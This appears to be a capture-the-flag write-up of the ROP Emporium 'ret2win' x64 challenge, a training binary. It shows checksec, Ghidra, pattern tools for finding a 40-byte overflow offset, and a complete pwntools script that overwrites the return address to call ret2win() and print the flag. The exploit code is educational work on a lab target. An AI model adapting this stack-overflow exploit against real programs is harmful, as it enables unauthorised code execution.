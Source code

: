 ```yaml
---
title: ROP Emporium - ret2win (x64) - writeup
date: 2023-03-09 21:02:01 +0100
author: farrimwildaxe
categories: [Writeup,ROP Emporium]
tags: [rop,emporium,x64,ret2win,writeup,pwntools]
img_path: /assets/img/ropemporium/ret2win
published: true
---
```



ret2win is the first challenge in [ROP Emporium](https://ropemporium.com/) series where
you need to create very simple ROP to call specific function
in binary to get the flag.

As mentioned on challenge page we need to feed a binary with a padding bytes followed by a ROP chain - which in this challenge is an address of specific function - `ret2win()`.
Also there is additional information about the size of the payload which triggers buffer overflow - it's 40 bytes.

Ok, so lets start. First download and unzip binary, after that next thing is to check what security settings are enabled, ypu can use `checksec` tool from pwntools:

```bash
┌──(py3)─(kali㉿playground-kali)-[~/ropemporium/ret2win]
└─$ [2023-03-9 21:36:09] checksec ./ret2win                                                                                                                                                                                                
[*] '/home/kali/ropemporium/ret2win/ret2win'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
As we see in the output above NX bit is enabled, so we can't execute our code directly on the stack, also there is partial RELRO.

Ok, so whats next? Let's check what's inside with Ghidra. As you can see on the image below except `main()` function there're also `pwnme()` and `ret2win()`

![ret2win main() function in Ghidra decompiler](ret2win-main.jpg)

Let's check what is in the `pwnme()` function:

![ret2win pwnme() function in Ghidra decompiler](ret2win-pwnme.jpg)


And last but not least, `ret2win()` function:

![ret2win ret2win() function in Ghidra decompiler](ret2win-ret2win.jpg)


`pwnme()` this function has a buffer overflow mentioned on a challenge page - it's taking 56 bytes and writing it to the 32 bytes buffer. Now, we need to confirm how many bytes we need to put to make buffer overflow and control `RSP` register. We can use `msf-pattern_create` and `msf-pattern_offset` tools for that. First we need to create a pattern:
```bash
┌──(py3)─(kali㉿playground-kali)-[~/ropemporium/ret2win]
└─$ [2023-03-12 17:38:57] msf-pattern_create -l 64                                                                                                                                                                                         
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A

```
Next, after pattern is created, we need to run `ret2win` binary in gdb, and use a pattern in `read()` call:

![ret2win using generated pattern to find proper padding length](ret2win-pattern.jpg)

Ok, binary has crashed. In the gdb context we can see that `RSP` has `b3Ab4Ab5` pattern, let's check it in by using `msf-pattern_offset`:

```
┌──(py3)─(kali㉿playground-kali)-[~/ropemporium/ret2win]
└─$ [2023-03-12 17:51:39] msf-pattern_offset -q b3Ab                                                                                                                                                                                       
[*] Exact match at offset 40
```
Ok, so the size of padding is `40` as mentioned on challenge page, after we verified padding size we need to put proper function address. Let's create simple pwntools script to test that:


```python
from pwn import *

context.log_level="debug"

elf = context.binary = ELF("ret2win")

gs = '''
continue
'''
def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)


io = start()

io.recvuntil(b"> ")

address = b"B" * 8

payload = b"A" * 40 + address
io.sendline(payload)

io.interactive()
```

After running above script (`python3 exploit.py GDB`) we can see that program crashed with segmentation fault and `RSP` contains `BBBBBBBB` string as expected, so we're controling that register:

![ret2win ](ret2win-address.jpg)

So, now we need to put a proper address at the end of our payload. We can use gdb `disassemble` get the address of `ret2win()` function:

```python
pwndbg> disassemble ret2win
Dump of assembler code for function ret2win:
   0x0000000000400756 <+0>:     push   rbp
   0x0000000000400757 <+1>:     mov    rbp,rsp
   0x000000000040075a <+4>:     mov    edi,0x400926
   0x000000000040075f <+9>:     call   0x400550 <puts@plt>
   0x0000000000400764 <+14>:    mov    edi,0x400943
   0x0000000000400769 <+19>:    call   0x400560 <system@plt>
   0x000000000040076e <+24>:    nop
   0x000000000040076f <+25>:    pop    rbp
   0x0000000000400770 <+26>:    ret    
End of assembler dump.
pwndbg> 
```
We can use `0x0040075a` (jumping over function prologue) and if everything goes as expected we should do buffer overflow and call `ret2win()` which will print the flag. Let's update our pwntools script with the proper address:


```python
from pwn import *

context.log_level="debug"

elf = context.binary = ELF("ret2win")

gs = '''
continue
'''
def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)


io = start()

io.recvuntil(b"> ")

address = p64(0x0040075a)
payload = b"A" * 40 + address
io.sendline(payload)

io.interactive()
```

After running our final exploit, we got the flag:
```python
┌──(py3)─(kali㉿playground-kali)-[~/ropemporium/ret2win]
└─$ [2023-03-12 21:30:14] python3 exploit.py                                                                                                                                                                                               
[*] '/home/kali/ropemporium/ret2win/ret2win'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/home/kali/ropemporium/ret2win/ret2win' argv=[b'/home/kali/ropemporium/ret2win/ret2win'] : pid 1426237
[DEBUG] Received 0x100 bytes:
    b'ret2win by ROP Emporium\n'
    b'x86_64\n'
    b'\n'
    b'For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!\n'
    b'What could possibly go wrong?\n'
    b"You there, may I have your input please? And don't worry about null bytes, we're using read()!\n"
    b'\n'
    b'> '
[DEBUG] Sent 0x31 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000020  41 41 41 41  41 41 41 41  5a 07 40 00  00 00 00 00  │AAAA│AAAA│Z·@·│····│
    00000030  0a                                                  │·│
    00000031
[*] Switching to interactive mode
[DEBUG] Received 0x28 bytes:
    b'Thank you!\n'
    b"Well done! Here's your flag:\n"
Thank you!
Well done! Here's your flag:
[DEBUG] Received 0x21 bytes:
    b'ROPE{a_placeholder_32byte_flag!}\n'
ROPE{a_placeholder_32byte_flag!}
[*] Process '/home/kali/ropemporium/ret2win/ret2win' stopped with exit code 0 (pid 1426237)
[*] Got EOF while reading in interactive
```
